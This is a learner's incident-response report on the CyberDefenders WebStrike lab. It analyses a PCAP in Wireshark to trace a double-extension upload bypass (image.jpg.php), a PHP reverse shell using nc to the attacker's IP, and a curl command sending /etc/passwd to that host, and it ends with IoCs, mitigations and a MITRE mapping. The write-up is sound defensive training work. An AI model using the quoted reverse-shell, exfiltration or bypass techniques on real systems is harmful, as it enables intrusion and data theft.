


# Incident Response Report: WebStrike (CyberDefenders)

## Scenario
A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.

Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### 1. Executive Summary
*A web server compromise was detected. Network traffic (PCAP) was analyzed using Wireshark to determine the initial attack vector, the attacker's IP address, and the malicious payload deployed.*

### 2. Incident Details
* **Lab/Challenge:** WebStrike (CyberDefenders)
* **Category:** Network Forensics / SOC Analyst Tier 1
* **Tools Used:** Wireshark
* **Date of Investigation:** 4-4-2026

### 3. Investigation Methodology & Findings
* **Step 1: Identifying the Attacker**
  * *Method:* Filtered Wireshark traffic by HTTP requests to spot anomalous behavior. Using the filter `http.request.method == GET` to identify the source IP. Use a geo-IP lookup service to identify the geographical origin of the attack, which located at Tianjin, China. Then expand the Hypertext Transfer Protocol section in the HTTP GET packet to find User-Agent field to view the attacker's User-Agent.
  * *Finding:* The attacker's IP address was identified as `117.11.88.124`. The attacker's Full User-Agent: `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

* **Step 2: Identifying the Attack Vector & Payload Delivery**
  * *Method:* Examined the HTTP POST method `http.request.method == POST` targeting the web server, follow the HTTP stream between the attacker and the server. Looks like an attacker found the `reviews/upload.php` page where the attacker can upload the php malicious webshell or specifically reverse shell or C2(spot via the content of the uploaded file (`nc` command) where it's `<?php system ..... nc 117.11.88.124 8080 >/tmp/f"); ?>`). The attacker attempts to upload a file named `image.php` via the `/reviews/upload.php` endpoint but was rejected by the server but later the attacker modifies the file name to `image.jpg.php` and successfully upload the file. Then to identify the directory where the uploaded file is stored at, Apply the filter `http.request.uri contains "image.jpg.php"` to analyze the packet's HTTP URI to locate the upload directory. Follow the HTTP stream and found `GET` request from the attacker to `/reviews/uploads` adn the server respond with `HTTP 200 OK` and the content inside contain the file.
  * *Finding:* The attacker exploited an Unrestricted File Upload vulnerability to deploy a reverse shell.
  * 

* **Step 3: Compromised Data**
  * *Method:* Since the attack is Control and Command/Reverse Shell, followed the TCP stream for the outbound traffic from the server. To analyze the downloaded files, apply the filter `tcp.dstport == 8080` to identify which file the attacker wanted to exfiltrate. Found the `curl` command used to transfer the data spefically `curl -X POST -d /etc/passwd http://117.11.88.124:443/` to his machine over HTTP port 443.
  * *Finding:* The attacker exfiltrated the contents of the server's `/etc/passwd` file.
  * 

### 4. Indicators of Compromise (IoCs)
* **Attacker IP Address(es) and Port:** `117.11.88.124` `8080`
* **Malicious Files:** `image.jpg.php`

### 5. Mitigation & Recommendations
* Implement geo-blocking for suspicious IPs
* Update the web server software to patch the exploited vulnerability.
* Configure a Web Application Firewall (WAF) to block malicious HTTP requests.
* Implement strict file validation on the upload portal (e.g., whitelisting extensions, verifying MIME types) to prevent executable files like .php from being uploaded.

### 6. MITRE ATT&CK Mapping
|Tactic|Technique ID|Technique Name |Lab Evidence|
|----------------|-------------------------------|-----------------------------|-----------------------------|
|Initial Access|T1190|Exploit Public-Facing Application|The attacker exploited an unrestricted file upload vulnerability on the `/reviews/upload.php` endpoint.|
|Persistence|**T1505.003**|Server Software Component: Web Shell|The attacker successfully bypassed filters by renaming their payload to `image.jpg.php` to establish a foothold.|
|Execution|**T1059.004**|Command and Scripting Interpreter: Unix Shell|The attacker utilized `nc` (Netcat) via the web shell to execute a reverse shell connection back to their machine on port 8080.|
|Exfiltration|**T1048**|Exfiltration Over Alternative Protocol|The attacker utilized `curl` over HTTP to exfiltrate the contents of the server's `/etc/passwd` file.|

### 7. Lessons Learned
-   **Web Application Vulnerabilities:** Gained practical experience identifying file upload bypass techniques (e.g., double extensions like `.jpg.php`) used to deploy malicious web shells.
    
-   **Stream Assembly in Wireshark:** Mastered the use of following HTTP and TCP streams to reconstruct the attacker's exact commands and extract the raw contents of malicious payloads.
    
-   **Post-Exploitation Tracking:** Successfully identified reverse shell signatures (`nc`) and data exfiltration techniques (`curl -X POST`), reinforcing the importance of monitoring outbound traffic on non-standard ports.
